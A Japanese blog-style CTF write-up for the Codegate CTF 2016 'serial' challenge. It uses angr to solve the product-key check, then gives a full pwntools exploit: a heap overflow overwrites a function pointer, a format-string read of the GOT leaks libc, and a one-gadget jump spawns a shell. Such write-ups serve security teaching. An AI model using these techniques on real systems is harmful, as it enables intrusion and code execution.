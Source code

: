 ```yaml
---
layout: post
redirect_from:
  - /writeup/ctf/2016/codegate-ctf-2016-serial/
  - /blog/2016/10/23/codegate-ctf-2016-serial/
date: "2016-10-23T00:50:29+09:00"
tags: [ "ctf", "codegate-ctf", "pwn", "angr" ]
"target_url": [ "https://github.com/ctfs/write-ups-2016/tree/master/codegate-ctf-2016/pwn/serial-444" ]
---
```


# Codegate CTF 2016 : serial

## problem

``` sh
$ file ./serial
./serial: ELF 64-bit LSB executable, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/ld-linux-x86-64.so.2, for GNU/Linux 2.6.32, BuildID[sha1]=178aaa6576923592e7fc8534fd8cb21d5f6c5cdb, stripped

$ ./serial
input product key: 615066814080
Correct!
Smash me!
1. Add 2. Remove 3. Dump 4. Quit
choice >> 1
insert >> hoge
Smash me!
1. Add 2. Remove 3. Dump 4. Quit
choice >> 1
insert >> fuga
Smash me!
1. Add 2. Remove 3. Dump 4. Quit
choice >> 3
func : 0x40096e
0. hoge
1. fuga
Smash me!
1. Add 2. Remove 3. Dump 4. Quit
choice >> 4
bye
```

## solution

まず最初に`input product key: `と聞かれる。
angrで殴れば倒せる。この部分は後に効いてこないので忘れてよい。

note管理系のプログラム。
heap上に以下の配列が確保される。chunkそのものもoverflowしているが、他に`malloc`も`free`もないのでここは攻撃不可能。

``` c
struct note_t {
    char content[0x18]; // 0x0
    void (*func)(node_t *) ; // 0x18
}; // 0x20
```

`1. Add`で`content`にoverflowがあり、自身の`func`を書き換えられる。
`3. Dump`で先頭noteの`func`が呼ばれるので、fsaから適当にすればよい。
主なbofはheap上なので`printf`の引数が問題だが、`choice >> `で読んだときのごみがstackに残っているので利用できるし、`argv[0]`あたりも使える。

## implementation

### product key (愚直)

最低限の`find`/`avoid`のみを指定した場合。
$10$分ぐらいかかるが解は出る。

``` python
#!/usr/bin/env python2
import angr

number_only = 0x400d22
wrong = 0x400e78
correct = 0x400e5c

p = angr.Project("./serial")
state = p.factory.entry_state()
pathgroup = p.factory.path_group(state)
pathgroup.explore(find=(correct, ), avoid=(number_only, wrong))

for path in pathgroup.found:
    print 'found', path
    print repr(path.state.posix.dumps(1))
    print repr(path.state.posix.dumps(0))
```

### product key (まとも)

入力を直接メモリに載せ、目的の関数のみを直接実行する場合。
$3$秒で終わる。

``` python
#!/usr/bin/env python2
import angr

key_length = 12
check_function = 0x400cbb
address = 0x602000 + 0x900
number_only = 0x400d22
wrong = 0x400e78
correct = 0x400e5c

p = angr.Project("./serial")
state = p.factory.blank_state(addr=check_function)
key = state.se.BVS(name="key", size=key_length*8)
state.memory.store(address, key)
state.regs.rdi = address
pathgroup = p.factory.path_group(state)
pathgroup.explore(find=(correct, ), avoid=(number_only, wrong))

for path in pathgroup.found:
    print repr(path.state.se.any_str(key))
```

### shell

思考停止してone-gadget RCE投げ込むの、悪影響ありそう。

``` python
#!/usr/bin/env python2
from pwn import * # https://pypi.python.org/pypi/pwntools
import argparse
parser = argparse.ArgumentParser()
args = parser.parse_args()
context.log_level = 'debug'

elf = ELF('./serial')
libc = ELF('/lib/x86_64-linux-gnu/libc.so.6')
p = process('./serial')

p.recvuntil('input product key: ')
p.sendline('615066814080')

def add(s):
    p.recvuntil('choice >> ')
    p.sendline('1')
    p.recvuntil('insert >> ')
    p.send(s)
def remove(i):
    p.recvuntil('choice >> ')
    p.sendline('2')
    p.recvuntil('choice>> ')
    p.sendline(str(i))
def dump(tail='', result=True):
    p.recvuntil('choice >> ')
    p.sendline('3' + tail)
    if result:
        assert p.recvline().startswith('func : ')
        return p.recvuntil('Smash me!\n', drop=True)

# format-string attack
add('%13$s'.ljust(0x18, ' ') + p64(elf.plt['printf']).rstrip('\0') + '\n')
t = dump(' ' * 7 + p64(elf.got['setvbuf']))
remove(0)
setvbuf = u64(t.split('    ')[0].ljust(8, '\0'))
libc_base = setvbuf - libc.symbols['setvbuf']
log.info('libc base: %#x', libc_base)

# one-gadget RCE on Ubuntu 16.04
add(' ' * 0x18 + p64(libc_base + 0xf0897).rstrip('\0') + '\n')
dump(result=False)

time.sleep(1)
p.sendline('id')
p.interactive()
```
